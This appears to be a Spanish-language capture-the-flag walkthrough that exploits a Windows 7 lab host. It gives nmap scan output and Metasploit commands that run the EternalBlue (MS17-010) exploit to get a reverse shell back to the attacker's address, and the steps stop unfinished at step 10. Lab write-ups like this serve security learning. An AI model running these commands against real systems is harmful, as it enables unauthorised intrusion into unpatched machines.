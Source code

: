 1. Escaneo de puertos
```bash
└─$ nmap -np 135,139,445,3389 -Pn -v 10.10.13.123 -sVC     

# RESULTADO RESUMIDO

PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2024-03-28T09:35:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Issuer: commonName=Jon-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-27T09:14:46
| Not valid after:  2024-09-26T09:14:46
| MD5:   3dba:f23d:e3a2:5c66:454b:e31a:2eff:86b5
|_SHA-1: 453b:be6e:1bfb:2dc2:1325:c284:4f0c:11af:55fa:459d
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2024-03-28T09:35:07+00:00
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m09s, median: 0s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-28T04:35:07-05:00
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:a3:c0:f5:1c:27 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-03-28T09:35:07
|_  start_date: 2024-03-28T09:14:44
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

```

2. Búsqueda en exploit database y google (solo con poner "Windows 7 Professional 7601 Service Pack 1 exploit")
![[busqueda_exploit.PNG]]

3. Abrir metasploit
```bash
msfconsole
```
4. Utilizar el exploit ms17_010_eternalblue (**el que vamos a utilizar**)
```bash
use ms17_010_eternalblue
# Mirar información del exploit
info ms17_010_eternalblue
```
5. Establecer opciones para ejecutar el exploit al servidor
```bash
set rhosts 10.10.13.123
set rport 445
set lhost 10.14.75.238
```
6. Revisar opciones establecidas
```bash
show options
```
7. Ejecutar exploit
```bash
exploit -z
```
8. Una vez obtengamos el control del servidor (reverse shell) la enviaremos a segundo plano (para que metasploit pueda cogerla y "upgradearla")
```
[CTRL+Z]
```
9. Buscar session meterpreter
10. 
